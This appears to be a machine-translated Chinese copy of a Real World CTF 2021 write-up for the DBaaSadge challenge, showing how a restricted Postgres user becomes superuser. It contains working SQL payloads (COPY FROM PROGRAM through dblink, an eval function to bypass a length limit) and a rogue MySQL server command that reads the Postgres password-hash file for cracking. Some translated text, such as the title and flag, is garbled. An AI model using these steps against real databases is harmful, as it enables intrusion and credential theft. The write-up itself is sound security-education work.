

# DBA asedge—向上写

> 原文：<https://infosecwriteups.com/dbaasadge-writeup-61ebcdbe4357?source=collection_archive---------2----------------------->


## CTF 现实世界 2021

今年我和索克劳德队在真实世界 CTF 比赛，我们获得了第二名。我参与了解决 DBaaSadge，一个网络挑战，我很高兴把我的文章作为一个很好的知识来源分享给其他人。

如果您想了解自己的设置，您可以在这里找到所有的挑战文件。

# 挑战

在挑战中，我们得到了一个 Dockerfile 文件，它建立了一个 Postgres 10 数据库，有两个扩展: [dblink](https://www.postgresql.org/docs/10/dblink.html) 和 [mysql_fdw](https://github.com/EnterpriseDB/mysql_fdw) 。第一个是 Postgres 本身的扩展，允许用户链接和连接 Postgres 数据库。第二个扩展实现了同样的功能，但是使用 MySQL 数据库。

为了与数据库对话，我们可以使用 HTTP 请求来执行 SQL 语句并返回输出。在下面的代码中，*index.php*，你可以清楚地看到其中的逻辑。

挑战的 index.php

查看逻辑，我们可以看到 SQL 命令被限制在 100 个字符以内，由 Postgres 数据库中的用户 *realuser* 执行。此外，数据库包含超级用户 postgres，我们可以在提供的 Dockerfile 文件中看到。最后，服务器包含一个 *getflag* 二进制文件，我们需要执行它来接收这个标志。

该片段显示了 Dockerfile 文件的一部分

为了理解解决挑战和最终利用的途径，让我们以相反的顺序开始，考虑如何执行任意代码。

# 远程代码执行

从测试任意代码开始，为了更容易使用，我们在本地机器上设置了挑战，并将超级用户密码改为*密码*。此外，我们直接在服务器上执行 SQL 命令，而不是使用 HTTP 请求来避免 100 个字符的限制。这使得调试更加容易。

接下来，我们查看 Postgres 文档，发现 [COPY 语句](https://www.postgresql.org/docs/10/sql-copy.html)可以通过提供关键字 PROGRAM 来执行命令。所以，我们来试试吧。

通过“从程序复制”，用户可以在 Postgresql 中执行外壳代码

我们可以看到，我们首先创建了一个表，在这个表中我们复制了 shell 命令 *id* 的输出。之后，我们可以通过从 cmd_table 中选择数据来查看结果。这很容易，并让我们从数据库内部执行任意代码。

不幸的是，在数据库内部，程序选项只对超级用户可用。因此，下一步是考虑如何成为超级用户。

回想一下，我们启用了扩展 dblink。使用这个扩展，我们可以通过指定主机、数据库、用户和密码来连接 Postgres 数据库。

```
SELECT * FROM dblink ('host=127.0.0.1 dbname=postgres user=postgres password=password', 'COPY cmd_table FROM PROGRAM ''/readflag'';') AS a (b text);
```

在上面的 SQL 语句中，我们可以看到，如果我们知道超级用户 postgres 的密码，我们也可以将我们的本地机器和当前数据库 postgres 连接起来。此外，我们执行 readflag 二进制文件。

在执行 readflag 二进制文件之前，我们有两个限制。第一，我们不知道密码。第二，语句长度超过 100 个字符。

# 长度限制旁路

如果执行复杂的 SQL 语句，100 个字符并不多。因此，我们寻找绕过这一限制的方法。幸运的是，这种绕过是通过所谓的 eval 方法实现的:我们将长有效载荷存储到数据库中，并使用 eval 函数执行它。

首先，让我们看看我们创建的 eval 函数。

```
CREATE FUNCTION eval_func (i TEXT, out o TEXT) AS $$ BEGIN execute i INTO o; END $$ LANGUAGE plpgsql
```

创建的函数接受输入文本 I，执行它，并返回输出 o——这正是我们对 eval 的期望。这个 eval 现在可以用来执行任意长度的 SQL 语句，如下例所示。

使用 eval 表和函数，我们可以执行任意长度的 SQL 语句。

如前所述，我们将命令的所有部分插入到 eval 表中，并使用连接的命令字符串作为输入来调用 eval 函数。

这样，只有超级用户的密码丢失。

# 密码文件

窃取超级用户密码是挑战的主要部分，是基于 MySQL 协议中一个非常巧妙的设计缺陷。

MySQL 包含一个名为 [LOAD DATA](https://dev.mysql.com/doc/refman/8.0/en/load-data.html) 的函数，允许用户将数据从一个文件加载到一个表中。然而，它也允许客户端提供一个本地文件[，如果他指定了本地关键字](https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html)。由于 SQL 语句解析发生在服务器端，恶意的 MySQL 服务器可以随时告诉连接的客户端传输任何文件。

对于 mysql_fdw，Postgres 服务器处于作为 mysql 客户端可能受到该设计缺陷攻击的情况。例如，通过下面的 SQL 语句，我们可以将 Postgres 服务器连接到 MySQL 服务器，无论恶意与否。

将 Postgres 服务器连接到 MySQL 的 SQL 语句。

幸运的是，利用上述缺陷的恶意服务器已经在 GitHub 上实现了[。服务器从我们指定路径的客户端下载任何文件。记住 Postgres 密码文件的路径，这可以为我们提供超级用户的密码散列。事实上，要使用恶意服务器获取散列文件，公共可用服务器上的以下行(加上前面提到的 SQL 语句)就足够了:](https://github.com/jib1337/Rogue-MySQL-Server)

```
python RogueSQL.py -f "/var/lib/postgresql/10/main/global/1260"
```

Postgres 的密码文件包含所有密码的哈希。

现在，知道了 hash `a4824021a91d43cfeede15fdfbf77382f`，我们使用 hashcat 来快速破解它。由于它仅由五个随机字符组成，破解只需几秒钟。



Hashcat 输出密码

# 最后的利用

最后，我们把所有的部分组合在一起，得到了这面旗帜。让我总结一下最后的利用:

1.  启动一个公开的恶意 MySql 服务器，从每个连接的客户端请求密码文件。
2.  向服务器发送 SQL，以 HTTP 请求的形式连接到恶意的 MySql 服务器。
3.  从密码文件中取出散列，用 hashcat 破解它。
4.  使用密码伪造一个 SQL 语句，通过 dblink 以 postgres 用户的身份执行 *readflag* 。
5.  将语句分成几部分，并使用 eval 函数绕过 100 个字符的限制。
6.  获取标志:**rw CTF { pop _ cat _ says _ P1 ea5e _ upd4t 3 _ youR _ libmysql client _ kekW }**

很艰难，不是吗？下面你可以看到我最后的 python 漏洞，它执行除了恶意的 MySQL 服务器和 hashcat 之外的所有部分。

# 摘要

重新思考挑战显示了挑战的各个阶段，这是我们在 CTF 期间发现的。我个人学到了很多关于 SQL 服务器的知识，并喜欢编写最终的漏洞利用。感谢挑战作者这么好的挑战！